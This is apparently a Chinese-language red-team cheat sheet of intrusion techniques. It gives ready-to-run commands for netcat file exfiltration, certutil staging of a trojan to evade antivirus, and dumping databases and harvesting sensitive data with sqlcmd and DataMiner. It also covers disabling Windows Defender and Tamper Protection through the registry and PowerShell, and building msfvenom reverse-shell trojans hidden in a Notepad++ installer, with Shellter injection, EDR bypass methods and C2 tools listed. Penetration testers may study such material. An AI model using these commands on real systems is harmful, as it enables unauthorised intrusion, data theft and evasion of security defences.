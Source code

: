 综合技巧
========================================

临时服务器
----------------------------------------
- python方式
	+ ``python2 - m SimpleHTTPServer``
	+ ``python3 -m http.server 8888``
- php方式
	+ ``php -S 127.0.0.2:8181 -t /www /www/app.php``

windows后台运行程序
----------------------------------------
+ ``call start /b C:\frpc.exe -c C:\frpc.ini``

内网扫描
----------------------------------------
+ Netspy
	- 项目地址：``https://github.com/shmilylty/netspy``
	- 一款快速探测内网可达网段工具。

传输数据
----------------------------------------
- nc
	+ 连续传输两个数据包：``cat poc1.dat | sed s'/.$//' |nc -u 10.0.0.3 1023 -w 2 | cat poc2.dat | sed s'/.$//' |nc -u 10.0.0.3 1023 -w 2``
	+ dat文件存储数据包内容
	+ ``sed s'/.$//'`` 为去掉最后一个字节0a
	+ -u参数表示使用udp协议

文件传输
----------------------------------------

出网传输
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- nc
	- 文件传输
		+ 将B机器上的file.txt传输到A机器上
		+ ``A机器：nc -lvp 1567 > file.txt``
		+ ``B机器：nc 172.31.100.7 1567 < file.txt``
	- 目录传输
		+ ``tar -cvf – dir_name | nc -l 1567``
		+ ``nc -n 172.31.100.7 1567 | tar -xvf -``
	- 加密传输
		+ ``nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt``
		+ ``mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567``

不出网文件落盘
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- python
	- 目标机器转base64
		+ ``目标机器有python：python -c 'print(__import__("base64").b64encode(open("secret.zip", "rb").read()))'``
	- 个人机器还原
		+ ``cat - > zip.txt``
		+ ``输入拿到的base64串：UEsDBBQACQAIAEZ/CE8bl，输入完成按回车``
		+ ``^C即ctrl+c``
		+ ``还原文件：base64 -d zip.txt > secret.zip``
- certutil.exe
	- 前提：具有目标机器的命令执行shell，进行木马文件落盘，躲避AV的文件下载行为的查杀
	- 示例
		::
		
			将文件hack.exe转换成签名文件（base64编码）
			certutil -f -encode d:\hack.exe d:\out.txt
			使用echo命令将out.txt文件写入目标机器，执行以下代码将文件还原成exe
			certutil -f -decode d:\out.txt d:\hack.exe

脱裤
----------------------------------------
- sqlcmd
	+ dump数据:``sqlcmd -S 127.0.0.1,1433 -U username123 -P pasword123 -d datebase123 -Q"BACKUP DATABASE database123 to disk='c:\www\myweb\wap\userlz.bak'"``
- sqlmap
- DataMiner
	+ 用法
		::
		
			Sampledata,缩减命令: SD              //数据库全部取样功能
			Overview,缩减命令: OV                //数据库数据量统计功能
			SearchSensitiveData,缩减命令: SS     //数据库敏感数据捕获功能
			SingleTable,缩减命令: ST             //数据库单表取样功能
			参数：
			-T  databaseType                    //数据库类型(必选参数，目前支持 mysql、mssql、oracle、mongodb)
			-da 127.0.0.1:3306                  //数据库地址(必选参数，除非使用-f参数文件输入数据)
			-du name                            //数据库用户名(必选参数，除非使用-f参数文件输入数据)
			-dp passwd                          //数据库密码(必选参数，除非使用-f参数文件输入数据)
			-pa 127.0.0.1:8080                  //代理地址(可选参数)
			-pu name                            //代理用户名(可选参数)
			-pp passwd                          //代理密码(可选参数)
			-n  1                               //指定取样数据条数，默认为3(可选参数)
			-t 1                                //数据库敏感数据捕获功能使用线程数量，默认为5(可选参数)
			-p 自定义正则表达式                  //数据库敏感数据捕获功能自定义正则匹配参数(可选参数)
			-WA                                 //使用Windows本地认证方式登录(仅针对于mssql数据库)
			-f data.txt                         //批量数据库信息导入文件，文本中一条数据库信息占用一行
												文本格式：schema://user:password@host:port 
												如：mysql://root:123321@127.0.0.1:3306
													mssql://sa:123321@127.0.0.1:1433
													oracle://system:123321@127.0.0.1:1521
													mongo://admin:123321@127.0.0.1:27017
													mongo://admin:123321@127.0.0.1:27017?admin
													mongo://:@127.0.0.1:27017
													上述后两条分别为mongodb数据库 指定admin数据库登录模式与无用户密码登录模式
	+ 数据采样
		::
		
			//指定mysql数据库，连接数据库，每个表中内容取样条数为2
			DataMiner SD -T mysql -da 127.0.0.1:3306 -du name -dp passwd -n 2
			//指定mssql数据库，使用socks代理连接数据库，每个表中内容取样条数为2
			DataMiner SD -T mssql -da 127.0.0.1:1433 -du name -dp passwd -pa 127.0.0.1:8080 -pu name -pp passwd -n 2
			//使用文件批量导入数据库连接信息进行连接，每个表中内容取样条数为2
			DataMiner SD -f data.txt  -n 2
			//使用文件批量导入数据库连接信息并使用socks代理进行连接，每个表中内容取样条数为2
			DataMiner SD -f data.txt -pa 127.0.0.1:8080 -pu name -pp passwd -n 2
			//MSSQL数据库本地Windows认证登录使用全部数据库取样功能
			DataMiner SD -T mssql -WA
			//Mongodb数据库无用户密码登录模式使用全部数据库取样功能
			DataMiner SD -T mongo -da 127.0.0.1:27017
			//Mongodb数据库指定admin数据库登录模式使用全部数据库取样功能
			DataMiner SD -T mongo -da 127.0.0.1:27017?admin -du name -dp password
	+ 统计概览
		::
		
			//指定oracle数据库，连接数据库，使用数据量统计命令
			DataMiner OV -T oracle -da 127.0.0.1:1521 -du name -dp passwd
			//指定mysql数据库,使用socks代理连接数据库，使用数据量统计命令
			DataMiner OV -T mysql -da 127.0.0.1:3306 -du name -dp passwd -pa 127.0.0.1:8080 -pu name -pp passwd
			//使用文件批量导入数据库连接信息进行连接，使用数据量统计命令
			DataMiner OV -f data.txt
			//使用文件批量导入数据库连接信息并使用socks代理进行连接，使用数据量统计命令
			DataMiner OV -f data.txt -pa 127.0.0.1:8080 -pu name -pp passwd
			//MSSQL数据库本地Windows认证登录使用数据量统计概览功能
			DataMiner OV -T mssql -WA
			//Mongodb数据库无用户密码登录模式使用数据量统计概览功能
			DataMiner OV -T mongo -da 127.0.0.1:27017
			//Mongodb数据库指定admin数据库登录模式使用数据量统计概览功能
			DataMiner OV -T mongo -da 127.0.0.1:27017?admin -du name -dp password
	+ 敏感信息捕获
		::
		
			//指定mssql数据库，连接数据库，每个表中内容取样条数为2,并指定使用6个线程
			DataMiner SS -T mssql -da 127.0.0.1:1433 -du name -dp passwd -n 2 -t 6
			//指定mysql数据库,使用socks代理连接数据库，每个表中内容取样条数为2，并指定使用6个线程
			DataMiner SS -T mysql -da 127.0.0.1:3306 -du name -dp passwd -pa 127.0.0.1:8080 -pu name -pp passwd -n 2 -t 6
			//使用文件批量导入数据库连接信息进行连接，每个表中内容取样条数为2,并指定使用6个线程
			DataMiner SS -f data.txt  -n 2 -t 6
			//使用文件批量导入数据库连接信息并使用socks代理进行连接，每个表中内容取样条数为2,并指定使用6个线程
			DataMiner SS -f data.txt -pa 127.0.0.1:8080 -pu name -pp passwd -n 2 -t 6
			//指定mysql数据库,连接数据库，每个表中内容取样条数为2,指定使用6个线程，并使用自定义正则匹配用户名
			DataMiner SS -T mysql -da 127.0.0.1:3306 -du name -dp passwd -n 2 -t 6 -p ^[\x{4e00}-\x{9fa5}]{2,4}$
			//MSSQL数据库本地Windows认证登录使用关键敏感信息捕获功能
			DataMiner SS -T mssql -WA
			//Mongodb数据库无用户密码登录模式使用关键敏感信息捕获功能
			DataMiner SS -T mongo -da 127.0.0.1:27017
			//Mongodb数据库指定admin数据库登录模式使用关键敏感信息捕获功能
			DataMiner SS -T mongo -da 127.0.0.1:27017?admin -du name -dp password
	+ 导出表数据
		::
		
			//指定mysql数据库,连接数据库，指定test数据库中users表，取样条数为2
			DataMiner ST -T mysql -da 127.0.0.1:3306 -du name -dp passwd -n 2 -dt test.users
			//指定mysql数据库,使用socks代理连接数据库，指定test数据库中users表，取样条数为2
			DataMiner ST -T mysql -da 127.0.0.1:3306 -du name -dp passwd -pa 127.0.0.1:8080 -pu name -pp passwd -n 2 -dt test.users

端口信息
-----------------------------------------
- linux
	|netstat|
	
	::
	
		+ Local ：访问端口的方式，0.0.0.0 是对外开放端口，说明80端口外面可以访问；127.0.0.1 说明只能对本机访问，外面访问不了此端口；
		+ Address：端口
		+ Foregin Address：对外开放，一般都为0.0.0.0：* 
		+ Program name：此端口是那个程序在用，程序挂载此端口
		+ 重点说明 0.0.0.0 是对外开放，通过服务域名、ip可以访问的端口
		+ 127.0.0.1 只能对本机 localhost访问，也是保护此端口安全性
		+ ::: 这三个: 的前两个”::“，是“0:0:0:0:0:0:0:0”的缩写，相当于IPv6的“0.0.0.0”，就是本机的所有IPv6地址，第三个:是IP和端口的分隔符

- windows
	+ ``netstat -ano``

关闭Windows defender
-----------------------------------------
- 基本信息
	+ 查看版本
		- 系统查看：``Windows Security->Settings->About，Antimalware Client Verions``
		- 命令查看：``dir "C:\ProgramData\Microsoft\Windows Defender\Platform\" /od /ad /b``
	+ 查看已排除的查杀列表
		- 系统查看：``Windows Security->Virus & theat protection settings->Add or remove exclusions``
		- 命令查看：``reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Exclusions" /s``
		- powershell查看：``Get-MpPreference | select ExclusionPath``
- TrustedInstaller权限
	+ 关闭Windows defender需要TrustedInstaller权限。
	+ TrustedInstaller是从Windows Vista开始出现的一个内置安全主体，在Windows中拥有修改系统文件权限，本身是一个服务，以一个账户组的形式出现。 它的全名是：NT SERVICE\TrustedInstaller。
	+ 因为Administratior权限和system权限的cmd无法关闭Windows defender（powershell可以）
- 获取TrustedInstaller权限
	+ 参看提权。
- Tamper Protection
	- 篡改防护
		+ 当开启Tamper Protection时，用户将无法通过注册表、Powershell和组策略修改Windows Defender的配置。
	- 查看
		+ 面板查看：``Windows Security->Virus & theat protection settings``
		+ 命令查看：``reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection"``
	- 关闭
		+ 面板关闭：``Windows Security->Virus & theat protection settings，禁用Tamper Protection``
		+ 命令关闭：``reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection" /d 4 /t REG_DWORD /f``
		+ 其它：``NSudoLG.exe -U:T cmd /c "reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Features" /v "TamperProtection" /d 4 /t REG_DWORD /f"``
		+ 注：其中数值5代表开启，数值4代表关闭。
- 添加排除项
	+ 命令行：``reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths" /v "c:\temp" /d 0 /t REG_DWORD /f``
	+ powershell：``Add-MpPreference -ExclusionPath "c:\temp"``
	+ 其它：``NSudoLG.exe -U:T cmd /c "reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Exclusions\Paths" /v "c:\temp" /d 0 /t REG_DWORD /f"``
- 关闭Windows defender
	+ 命令关闭：``reg add "HKLM\SOFTWARE\Microsoft\Windows Defender" /v DisableAntiSpyware /t reg_dword /d 1 /f``
	+ powershell关闭：``Set-MpPreference -DisableRealtimeMonitoring $true``
	+ ``NSudoLG.exe -U:T cmd /c "reg add "HKLM\SOFTWARE\Microsoft\Windows Defender" /v DisableAntiSpyware /t reg_dword /d 1 /f"``
	+ ``AdvancedRun.exe /EXEFilename "%windir%\system32\cmd.exe" /CommandLine '/c reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /d 1 /t REG_DWORD /f' /RunAs 8 /Run``
	+ StopDefender：``https://github.com/lab52io/StopDefender``
- Tamper Protection防篡改无法关闭
	+ 利用原理：Windows Defender的机制是当存在其他杀软时就会关闭他自己的功能，非常值得注意的是，Tamper Protection防篡改保护也会临时关闭。因此，当我们下载一个杀软去覆盖WD后强制卸载它，然后再卸载我们的杀软。
	+ 安装火绒
	+ 关闭Windows defender
		- ``AdvancedRun.exe /EXEFilename "%windir%\system32\cmd.exe" /CommandLine '/c reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /d 1 /t REG_DWORD /f' /RunAs 8 /Run``
	+ 使用WDControl_1.7.0.exe卸载defender
- 注：powershell的相关操作在新版本windows系统已不再适用。

免杀
-----------------------------------------
- 核心技术：分离执行和加密混淆等技术
- 免杀加载器
    + venom/msfvenom
        - venom生成其实是直接调用的msfvenom
        - 支持生成多平台payload，比如android、ios、linux/unix、office等等
        - 列出所有可用编码
            ``msfvemon -l encoders``
        - 裸奔木马
            ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.11 LPORT=1234 -f exe > /root/test.exe``
        - 免杀木马
            ``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.20.2 LPORT=3333 -e x86/shikata_ga_nai -x npp.7.8.6.Installer.exe -i 12 -f exe -o /root/npp1.exe``

        |msfvemon1|
    + Shellter动态注入工具
        - 下载地址：https://www.shellterproject.com/download/
        - Choose Operation Mode - Auto/Manual (A/M/H)
            选择模式: 自动模式自动注入后门，M高级模式，H帮助
        - PE Target：
            注入的程序.
        - Enable Stealth Mode?
            是否启用隐身模式
        - Use a listed payload or custom? (L/C/H)
            使用攻击模块列表或者自定义
        - Select payload by index:
            选择payload序号
        - SET LHOST
            设置反弹回来的IP 本机
        - SET LPORT
            设置接收反弹的端口
    + veil
- 防御EDR检测
    + 地狱之门
        - 原理：避免在用户层被EDR hook的敏感函数检测到敏感行为，利用从ntdll中读取到的系统调用号进行系统直接调用来绕过敏感API函数的hook。
        - 相关项目：https://github.com/am0nsec/HellsGate
    + 光环之门
        - 原理：
        - 相关项目：https://github.com/trickster0/TartarusGate
        - 相关资料：https://blog.vincss.net/2020/03/re011-unpack-crypter-cua-malware-netwire-bang-x64dbg.html
    + SSN系统调用地址排序
        - 原理：ntdll.dll中的特性就是所有的Zw函数是根据函数地址的大小来进行排序的，所以我们就只需要遍历所有Zw函数，记录其函数名和函数地址，最后将其按照函数地址升序排列后，每个函数的调用号就是其对应的排列顺序的索引号。

提权
-----------------------------------------
- PEASS-ng
	 + 新一代特权升级脚本套件，适用于 Windows 和 Linux/Unix* 以及 MacOS 的权限提升工具
	 + 项目地址: ``https://github.com/carlospolop/PEASS-ng``

综合协同工具
-----------------------------------------
- Viper 【C&C】
	+ 项目地址：``https://github.com/FunnyWolf/Viper``，``https://www.yuque.com/vipersec``
	+ 说明：
		- Viper(炫彩蛇)是一款图形化内网渗透工具,将内网渗透过程中常用的战术及技术进行模块化及武器化.
		- Viper(炫彩蛇)集成杀软绕过,内网隧道,文件管理,命令行等基础功能.
		- Viper(炫彩蛇)当前已集成70+个模块,覆盖初始访问/持久化/权限提升/防御绕过/凭证访问/信息收集/横向移动等大类.
		- Viper(炫彩蛇)目标是帮助红队工程师提高攻击效率,简化操作,降低技术门槛.
		- Viper(炫彩蛇)支持在浏览器中运行原生msfconsole,且支持多人协作.
- PUPY【C&C】
	+ 项目地址：``https://github.com/n1nj4sec/pupy``
	+ 帮助：``https://3gstudent.github.io/Pupy%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90-Windows%E5%B9%B3%E5%8F%B0%E4%B8%8B%E7%9A%84%E5%8A%9F%E8%83%BD``
	+ Pupy是一个用 Python 编写、开源的跨平台（Windows、Linux、OSX、Android）远程管理和后期开发工具。

.. |netstat| image:: ../images/netstat.png
.. |msfvemon1| image:: ../images/msfvenom1.png
